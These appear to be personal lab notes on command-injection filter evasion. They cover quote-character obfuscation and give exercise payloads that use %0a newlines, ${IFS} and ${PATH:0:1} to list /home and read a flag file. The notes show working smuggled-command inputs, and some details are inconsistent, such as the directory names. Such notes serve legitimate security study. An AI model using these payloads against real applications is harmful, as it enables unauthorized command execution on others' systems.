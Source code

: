> [!NOTE]
> One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like Bash or PowerShell and will execute the same command as if they were not there. Some of these characters are a single-quote ' and a double-quote ", in addition to a few others.

### quote is easiest way

![[Pasted image 20240502152158.png]]

#### Linux ONLY
![[Pasted image 20240502153210.png]]

#### Windows ONLY
![[Pasted image 20240502153247.png]]


# Exercise
find username in /home directory with command injection

```
127.0.0.1%0als${IFS}${PATH:0:1}home
```

read flag

```
127.0.0.1%0ah$@ead${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt

127.0.01\n
head /home/injector/flag.txt
```

![[Pasted image 20240502154341.png]]